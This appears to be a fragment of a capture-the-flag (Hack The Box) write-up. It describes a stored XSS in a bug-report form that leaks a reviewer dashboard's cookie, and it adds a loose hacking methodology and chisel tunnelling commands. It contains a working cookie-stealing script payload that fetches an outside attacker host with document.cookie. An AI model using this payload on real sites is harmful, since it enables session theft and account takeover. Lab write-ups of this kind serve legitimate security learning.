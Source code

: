 And because I have distinct memory of waiting all saturday night for nothing I will get on with some thing else while this cookie deliver service accepts my orders.
![](andwaitforcookies.png)
[I will leave this in for the amount I times I have said, written, heard, read and thought about the word: cookies, not cookie.](https://www.youtube.com/watch?v=I5e6ftNpGsU)

Correct cookie\* not cookies
```html
<script>fetch("http://10.10.14.39:8445/"+document.cookie)</script>
```

After a good [reminder and visual proof that I am in fact the hardest R](https://www.youtube.com/watch?v=tb2Ct3yyB4g)
![](cookieacquired.png)
The CRUCIAL SEES information here is:
Situational Awareness: the cookie's origin is from a DIFFERENT domain!
Example: Therefore a person review bugs would view them on a different part of the site - a dashboard to respond to issues
Explanation: other than this in a meta way - we can the use the pattern of this exploiting and return data to us from the dashboard domain to
Strategically: do something on that domain.

Because we know this is a CTF and know that there is a way to root somehow, the limitation of what we a can then Read from WiRE (Write, Is-it-a-rabbithole?, Read, Execute) - we can execute anything like RCE from the XSS because of how the server is handling our payload - it is embedded in a bug report 
- we are not popping a popup like its 1998-2010 and hoping some poor fool really wants our free Cookies please click the link)
- we are not able to get the server to write data through this payload, because we are speaking HTML, web  and JavaScript that the server can understand - send us cookie please.

Understand the all systems in the context, before introducing your own

Understand the Systems and Sub Systems
Understand the Systems' Users
Understand the System's Use Cases
Understand the Systen

-> Hack the Systems.

Schematism (meticulously collect artefacts of the context into a mental model), Understand (RTFM, work out what is going on, how it should work), Measure (spellcheck your payloads fool) and PWN
Become the [SUMP](https://en.wikipedia.org/wiki/Sump#:~:text=A%20sump%20is%20a%20low,water%20and%20recharge%20underground%20aquifers.) of all the other humans' ingenuity.

##### out's payload && Beyond Root before root, when machine is retired 

More for personal revision and addition something I add for all the help I got; we could also use chisel as a proxy server to then forward that to burp. As actually over kill as that is 


To do after the box retires the below is from memory - I know I am missing from flags
```bash
# Recieve traffic from HTB interface to chisel
chisel client 127.0.0.1:10000 HTBVPNInterface:80:127.0.0.1:8081
# Serve traffic to second client
chisel server 127.0.0.1:10000 
# Forward to burp from 8081 localhost to 8080
chisel client 1127.0.0.1:10000 127.0.0.1:8081:127.0.0.1:8080
```
